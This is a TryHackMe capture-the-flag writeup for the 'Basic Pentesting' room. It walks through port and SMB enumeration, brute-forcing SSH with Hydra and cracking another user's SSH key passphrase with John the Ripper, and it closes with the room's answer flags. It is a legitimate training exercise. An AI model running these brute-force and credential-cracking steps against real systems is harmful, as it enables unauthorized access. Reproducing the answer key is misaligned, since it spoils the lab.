 ## Basic Pentesting - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/basicpentestingjt)

**IP: 10.10.209.113**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Penetration Testing Fundamentals <br>

**Tools Used**: Nmap, Hydra, Gobuster, enum4linux, John The Ripper

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/LOGO%20CUT.png"/>](https://github.com/mauzware)

[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- Starting with Nmap scan as always.
  ```
  nmap -A -p- 10.10.209.113
  
  open ports:
  22 -> OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
  80 -> Apache httpd 2.4.18 ((Ubuntu))
  139 -> Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
  445 -> Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
  8009 -> Apache Jserv (Protocol v1.3)
  8080 -> Apache Tomcat 9.0.7
  
  Host script results:
  | smb2-time: 
  |   date: 2025-04-23T18:25:37
  |_  start_date: N/A
  | smb-os-discovery: 
  |   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
  |   Computer name: basic2
  |   NetBIOS computer name: BASIC2\x00
  |   Domain name: \x00
  |   FQDN: basic2
  |_  System time: 2025-04-23T14:25:37-04:00
  | smb-security-mode: 
  |   account_used: guest
  |   authentication_level: user
  |   challenge_response: supported
  |_  message_signing: disabled (dangerous, but default)
  | smb2-security-mode: 
  |   3:1:1: 
  |_    Message signing enabled but not required
  |_clock-skew: mean: 1h20m01s, deviation: 2h18m34s, median: 0s
  |_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
  ```
  
- Now looking for hiddent assets with Gobuster.
  ```
  gobuster dir -u http://10.10.209.113 -w=/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
  /development
  ```
  
- When I visited `http://10.10.209.113/development` I found two files: dev.txt and j.txt. Let's check them real quick.
  ```
  dev.txt 

  2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
  to host that on this server too. Haven't made any real web apps yet, but I have tried that example
  you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
  using version 2.5.12, because other versions were giving me trouble. -K
  
  2018-04-22: SMB has been configured. -K
  
  2018-04-21: I got Apache set up. Will put in our content later. -J

  j.txt 

  For J:
  
  I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
  and I was able to crack your hash really easily. You know our password policy, so please follow
  it? Change that password ASAP.
  
  -K
  ```

- Since I work with `samba` let's enumerate that as well.
  ```
  enum4linux -a 10.10.209.113
  Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
  [+] Attempting to map shares on 10.10.209.113
  
  //10.10.209.113/Anonymous       Mapping: OK Listing: OK Writing: N/A
  ```

---

## 🧍 User Privilege Escalation

- Found share named `Anonymous` with `enum4linux`, connect to that share with `smbclient`.
  ```
  smbclient //10.10.209.113/Anonymous
  ```
  
- I'm in legoooo! Looking for more info, found `staff.txt`, downloaded it and checked it.
  ```
  get staff.txt
  cat staff.txt 
  ```
  
- Perfect, I found users Jan and Kay, so they added notes on development page as J. and K.

- Now moving to brute forcing since I already found Jan as valid username.
  ```
  hydra -l jan -P /rockyou.txt -t 16 -I 10.10.209.113 ssh
  ``` 

- Perfect, now I have Jan's password which is `armando`. The last thing I have to do is to find Kay's password.

---

## 👑 Root Privilege Escalation

- Now I connected to target machine with SSH as Jan and then tried to get Kay's password. Kay's password is in the file `pass.bak` which I couldn't check due to permission control.
  ```
  ssh jan@10.10.209.113
  armando

  cd home/kay
  ls -al
  
  cd .ssh
  
  ls -al
  id_rsa
  id_rsa.pub
  ```
  
- Found `id_rsa` which is the key for last flag. Download it, convert it to hash and crack the hash, change its permission and connect again with it as user Kay.
  ```
  ssh2john id_rsa > kay_id_rsa.hash
  
  john --wordlist=/rockyou.txt kay_id_rsa.hash
  beeswax (id_rsa)
  
  chmod 600 id_rsa
  
  ssh -i id_rsa kay@10.10.209.113
  passphrase: beeswax
  ```
  
- Awesome! I'm in as Kay, let's check the `pass.bak` file for the last flag.
  ```
  cat pass.bak
  heresareallystrongpasswordthatfollowsthepasswordpolicy$$
  ```

---

## 🏁 Flags

- **What is the name of the hidden directory on the web server(enter name without /)?**: `development`
- **What is the username?**: `jan`
- **What is the password?**: `armando`
- **What service do you use to access the server(answer in abbreviation in all caps)?**: `SSH`
- **What is the name of the other user you found(all lower case)?:** `kay`
- **What is the final password you obtain?**: `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Nothing, just sharpening my skills.`

- What did I learn?
  `Nothing, just sharpening my skills.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---

